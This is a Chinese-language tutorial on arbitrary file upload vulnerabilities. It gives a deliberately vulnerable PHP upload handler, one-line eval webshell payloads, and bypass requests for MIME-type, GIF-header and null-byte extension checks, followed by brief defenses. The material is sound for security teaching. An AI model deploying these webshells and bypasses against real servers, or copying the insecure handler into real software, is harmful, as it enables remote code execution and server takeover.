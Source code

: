 # 任意文件上传漏洞

## 1、概述

**定义：** 文件上传漏洞（ Unrestricted File Upload）网站上传功能过滤不严格，导致用户可通过上传文
件对系统造成危害。

> 上传服务端可解析的脚本文件造成远程代码执行、上传超大文件造成拒绝服务、上传Html文件引发XSS等。

**分类：** Web通用漏洞

**风险等级：** 严重/中危

**危害：**上传文件Getshell/上传HTML文件实现XSS攻击、上传超大文件引发拒绝服务等

## 2、漏洞原理+利用

**漏洞示例：** 

```php+HTML
<html>
<form action="http://127.0.0.1/upload.php"
method="POST" enctype="multipart/form-data">
<input name="a" type="file"></input>
<input name="b" ></input>
<input type="submit"></input>
</form>
</html>
<?php
var_dump($_POST['b']);
var_dump($_FILES);
move_uploaded_file($_FILES["a"]["tmp_name"],"
./upload/" . $_FILES["a"]["name"]);
?>
```

> 需要在同目录下创建一个upload文件夹

**漏洞利用：** 

上传一个一句话木马，然后用蚁剑远程连接。

```php
<?php eval($_POST['1'])?>
```

- **通过上传GetShell**。对于服务器直接支持解析的文件格式，只需要上传该后缀的文件即可。这种
  情况下的漏洞也被称作任意文件上传。
- **通过上传实现XSS攻击**。上传HTML文件时，在其中插入XSS代码实现XSS攻击。
- **通过上传实现服务器拒绝服务**。上传超大文件，或当服务器自动执行解压操作时，上传畸形的压
  缩包文件实现拒绝服务。

> 文件上传+环境解析 = WebShell
> 文件上传+任意路径控制 = 文件覆盖（WebShell）
> 文件上传 - 环境解析 - 路径控制 = XSS
> 文件上传-环境解析+无大小限制=拒绝服务

## 3、漏洞绕过

**文件类型限制：** 

```php
<?php
if($_FILES['a']['type'] != "image/gif")
{
    die("Sorry,we only allow uploading GIF images");
}    
?>
```

**绕过：** 

```http
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
Content-Disposition: form-data; name="a"; filename="filename.php"
Content-Type: text/php image/gif
file_content <?php eval($_GET['a'])?>
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
```

**文件头限制：** 

```php
<?php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$filename = '1.php';
echo finfo_file($finfo,$filename);
?>
```

**绕过：** 

添加一个GIF（也就是可以上传到服务器上的文件类型）的文件头就可以。

```
47494638 39613804 A005F700 00000000   |   GIF89a8
0509080A 09050B0C 0B120E0D 0E0F100F   |
11101211 0E131313 1A151316 16191719   |
```

**文件后缀追加限制：** 

```php
<?php
var_dump($_POST['a']);
var_dump($_FILES);
move_uploaded_file($_FILES["a"]["tmp_name"],"./upload" .$_POST['a'].'.jpg');
?>
```

**绕过：** 

```http
使用%00截断。 要求：PHP版本 < 5.3.4
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
Content-Disposition: form-data; name="a"
1.php0x00
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
```

**条件竞争：** 恶意文件上传后被检测到立马被删除，攻击者在他被删除前使用自动化工具快速频繁的请求该文件。

## 4、漏洞挖掘

一般都会有上传文件的选项，像上传头像照片等。

## 5、漏洞防御

1.严格限制上传文件后缀

2.对于无法限制文件后缀的情况，可以严格限制上传目录（防御../跳出目录），
同时将该目录设置为不可解析（octet-stream）。将其他目录设置为不可写入。

3.使用分站存储上传文件，分站不开启脚本资源解析。

## 6、实验

对应实验6
